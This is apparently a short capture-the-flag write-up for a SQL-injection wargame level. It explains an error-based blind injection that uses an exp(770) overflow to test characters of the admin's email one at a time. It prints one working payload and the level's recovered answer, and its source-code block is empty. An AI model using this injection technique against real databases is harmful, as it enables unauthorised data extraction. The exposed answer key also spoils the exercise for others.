

In this challenge we tried to do the same as [hell_fire](./hell_fire.md), however, it doesn't working, because it fetch the rows that has "rubiya" inside, and not "admin".

So, we came to this query, in this case, it'll always show result, until the condition will be true, and then it'll fail and not showing result  ( e ^ 770, not very kind )
```sql
(select exp(770) where ascii(substr((select email where id='admin'),1,1))=41)
```

the source code is here:
```python

```



**Password:** ***`aasup3r_secure_email@emai1.com`*** 
